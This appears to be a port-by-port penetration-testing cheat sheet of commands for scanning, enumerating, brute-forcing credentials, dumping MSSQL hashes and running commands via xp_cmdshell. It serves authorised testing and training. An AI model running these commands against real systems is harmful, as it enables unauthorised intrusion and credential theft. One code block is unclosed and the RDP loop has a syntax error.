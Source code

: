 # Source
https://guif.re/networkpentest
# 21 FTP
```bash
nmap -sV -Pn -vv -p21 --script=ftp-anon,ftp-bounce,ftp-libopie,ftp-proftpd-backdoor,ftp-syst,ftp-vsftpd-backdoor,ftp-vuln-cve2010-4221 $TARGET
```

# 22 - SSH
Check lockout policy
```bash
cat /etc/pam.d/system-auth
cat /etc/pam.d/password-auth
```
if okay, start brute forcing for fun
```bash
medusa -u $USER -P /usr/share/wordlists/rockyou.txt -e ns -h $TARGET - 22 -M ssh
hydra -s 22 -v -l $USER -P /usr/share/wordlists/rockyou.txt -e nsr -t 4 $TARGET ssh
ncrack -vv -p 22 --user $USER -P /usr/share/wordlists/rockyou.txt $TARGET
```
Check for weak diffie-hellman groups
```
https://github.com/GDSSecurity/SSH-Weak-DH
```

# 25 SMTP
```bash
# find users
smtp-user-enum -M VRFY -U /usr/share/seclists/Usernames/top_shortlist.txt -t 10.11.1.115 -p 25
```

# 53 DNS Lookup Range
```bash
dig.sh <ips.txt>

for ip in $(cat ips.txt); do nslookup $ip <nameserver>; done
```

# 69 UDP TFTP
```bash
nmap -n -vvv -d -sU -p69 10.11.1.226 --script tftp-enum.nse --script-args tftp-enum.filelist=/usr/share/wordlists/metasploit/tftp.txt
```

# 88 Kerberos
```bash
nmap -p88 --script=krb5-enum-users --script-args krb5-enum-users.realm="$DOMAIN.local",userdb=/usr/share/seclists/Usernames/Names/names.txt $TARGET

nmap -n -v -p 88 --script krb5-enum-users -sV 10.11.1.201 -d --script-args krb5-enum-users.realm='corp',userdb=cirt-default-usernames.txt
```

# 111/2049 NFS/RSTAT/NIS
```bash
showmount -e 10.10.10.10
nmap -sV -p111,2049 --script=nfs-showmount 10.10.10.10
nmap -p 111,2049 --script=nfs-ls 10.10.10.10
nmap -p 111,2049 --script=nfs-statfs 10.10.10.10

rsysinfo 10.10.10.10

apt-get install nis
ypwhich -d example.org 10.10.10.10
ypcat -d example.org -h 10.10.10.10 passwd.byname

#mounting
mkdir /tmp/mount
mount -t nfs -o nolock 10.10.10.10:/nfs/path /tmp/mount
```

# 139/445 SMB
```bash
nmap -n -v -p 135-139,445 -T4 -PN -sVC --script= --script-args=unsafe=1 $TARGET
nmap -n -v -p 135-139,445 -T4 -PN -sVC --script --script-args=unsafe=1 $TARGET
nmblookup -A $TARGET
smbclient //MOUNT/share -I $TARGET N
smbclient -L //$TARGET
enum4linux -a $TARGET
rpcclient -U "" $TARGET

# brute
hydra -l manager -P /usr/share/wordlists/rockyou.txt 10.11.1.202 smb
```

# 161 SNMP
v1/2
```bash
snmpwalk -v 2c -c public 10.10.10.1
```

v3
```bash
# enumerate usernames
snmpv3enum.rb -i 10.0.0.5 -u usernames

# brute
hydra -U snmp
```

# 389 LDAP
```bash
nmap -n -v -p 389 --script ldap-rootdse.nse -sV 10.11.1.201

nmap -n -v -p 389 --script ldap-search.nse -sV 10.11.1.201

ldapsearch -D "cn=admin" -w secret123 -p 389 -h 10.10.10.10 -s base -b "ou=people,dc=orachrvile,dc=com" "objectclass=*"

# brute
nmap -p 389 --script ldap-brute --script-args ldap.base='"cn=users,dc=cqure,dc=net"' <host>
```

# 80/443 - HTTP Servers
```bash
nmap -n -v -p 80,443,8080 -T4 -PN -sVC --script http-vuln* --script-args=unsafe=1 $TARGET
nikto -h http://$TARGET -p 80 -output 80_nikto.txt
curl -v -i $TARGET:80
w3m -dump $TARGET/robots.txt | tee 80_robots.txt
VHostScan -t $TARGET -oN 80_vhosts.txt
```

## 80/443 - HTTP (Discovery)
```bash
dirb http://$TARGET:80/ -o 80_dirb.txt
dirbuster -H -u http://$TARGET:80/ -l /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 20 -s / -v -r 80_dirbuster_medium.txt
gobuster -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://$TARGET:80/ -s '200,204,301,302,307,403,500' -e | tee '80_gobuster_common.txt'
gobuster -w /usr/share/seclists/Discovery/Web-Content/RobotsDisallowed-Top1000.txt -u http://$TARGET:80/ -s '200,204,301,302,307,403,500' -e | tee '80_gobuster_toprobots.txt'
gobuster -w /usr/share/seclists/Discovery/Web-Content/CGIs.txt -u http://$TARGET:80/ -s '200,204,301,307,403,500' -e  | tee '80_gobuster_cgis.txt'
```
# 1038 ruserd
```bash
apt-get install rusers
rusers -l 10.10.10.10

## 3389 RDP
```bash
# brute force
ncrack -vv --user administrator -P PASS_LIST rdp://$TARGET
crowbar -b rdp -u -s $TARGET -U USER_LIST -C PASS_LIST
for username in $(cat USER_LIST); do for password in $(cat PASS_LIST) do; rdesktop -u $username -p $password $TARGET; done; done;
```

## 1433/27900 MSSQL
```bash
nmap -vv -sV -Pn -p 27900 --script=ms-sql-info,ms-sql-config,ms-sql-dump-hashes --script-args=mssql.instance-port=27900,mssql.username=sa,mssql.password=sa $TARGET

 nmap -n -v -p 1433 10.11.1.31 -sTV -PN --script ms-sql-xp-cmdshell --script-args mssql.username=sa,mssql.password=poiuytrewq,ms-sql-xp-cmdshell.cmd="c:\ralph.exe"

 nmap -n -v -p 27900 10.11.1.227 -sV --script ms-sql-query.nse --script-args mssql.username=sa,mssql.password=password,ms-sql-query.query="SELECT * FROM tblCustomers",mssql.database=tblCustomers

```

## 3128,8080/various Proxies (squid, etc)
https://tools.kali.org/maintaining-access/httptunnel
```bash
#Connect to the proxy and scan whats available behind it:
#htc -F <local-port> <address>:<proxy-port>
htc -F 80 10.10.11.31:3128
curl -vv http://127.0.0.1:80

# scan (or run any command over the proxy chains) through the proxy with proxychains
htc -F 9050 10.10.11.31:3128
proxychains nmap -sTVC -p- 10.10.11.31
```

## 5900 VNC
VNC passwords are 8 >= characters long. Tailor dictionary to this
```bash
# vuln
nmap -n -v -p 5900 -sV -T4 -PN --script realvnc*,vnc-info*,vnc-title* $TARGET
# Find public exploits
searchsploit vnc
# Bruteforcing
crowbar -b vnckey -s 10.11.1.73/32 -p IP -k PASS_FILE
```
